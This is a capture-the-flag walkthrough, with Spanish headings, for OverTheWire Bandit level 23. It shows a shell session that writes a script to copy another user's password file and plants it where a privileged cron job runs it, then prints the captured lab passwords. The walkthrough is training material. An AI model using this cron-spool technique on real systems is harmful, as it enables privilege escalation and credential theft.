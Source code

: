 # Retos Bandit

## Objetivos

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso

User: bandit23
Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
Host: bandit.labs.overthewire.org  
Port: 2220

## Solución

``` Bash

bandit23@bandit:~$ ls -la /etc/cron.d
total 48
drwxr-xr-x   2 root root 4096 Sep  1 06:30 .
drwxr-xr-x 110 root root 4096 Sep  1 06:30 ..
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit15_root
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit17_root
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit22
-rw-r--r--   1 root root  122 Sep  1 06:30 cronjob_bandit23
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit24
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit25_root
-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
-rwx------   1 root root   52 Sep  1 06:30 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 23 13:49 .placeholder
-rw-r--r--   1 root root  396 Feb  2  2021 sysstat
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ mkdir /tmp/akshanteamo
bandit23@bandit:~$ cd /tmp/akshanteamo
bandit23@bandit:/tmp/akshanteamo$ echo "cat /etc/bandit_pass/bandit24 > /tmp/akshanteamo/password"
cat /etc/bandit_pass/bandit24 > /tmp/akshanteamo/password
bandit23@bandit:/tmp/akshanteamo$ echo "cat /etc/bandit_pass/bandit24 > /tmp/akshanteamo/password" > cat elnivelosama.sh
bandit23@bandit:/tmp/akshanteamo$ cat elnivelosama.sh
cat: elnivelosama.sh: No such file or directory
bandit23@bandit:/tmp/akshanteamo$ ls
cat
bandit23@bandit:/tmp/akshanteamo$ cat cat
cat /etc/bandit_pass/bandit24 > /tmp/akshanteamo/password elnivelosama.sh
bandit23@bandit:/tmp/akshanteamo$ echo "cat /etc/bandit_pass/bandit24 > /tmp/akshanteamo/password" > elnivelosama.sh
bandit23@bandit:/tmp/akshanteamo$ chmod 777 elnivelosama.sh
bandit23@bandit:/tmp/akshanteamo$ touch password
bandit23@bandit:/tmp/akshanteamo$ chmod 666 password
bandit23@bandit:/tmp/akshanteamo$ ls -la
total 196
drwxrwxr-x    2 bandit23 bandit23   4096 Sep  6 13:34 .
drwxrwx-wt 4821 root     root     184320 Sep  6 13:33 ..
-rw-rw-r--    1 bandit23 bandit23     74 Sep  6 13:31 cat
-rwxrwxrwx    1 bandit23 bandit23     58 Sep  6 13:32 elnivelosama.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Sep  6 13:34 password
bandit23@bandit:/tmp/akshanteamo$ cp elnivelosama.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/akshanteamo$ date
Tue Sep  6 01:35:09 PM UTC 2022
bandit23@bandit:/tmp/akshanteamo$ ls -la
total 200
drwxrwxr-x    2 bandit23 bandit23   4096 Sep  6 13:34 .
drwxrwx-wt 4821 root     root     184320 Sep  6 13:35 ..
-rw-rw-r--    1 bandit23 bandit23     74 Sep  6 13:31 cat
-rwxrwxrwx    1 bandit23 bandit23     58 Sep  6 13:32 elnivelosama.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Sep  6 13:36 password
bandit23@bandit:/tmp/akshanteamo$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Notas adicionales

## Referencias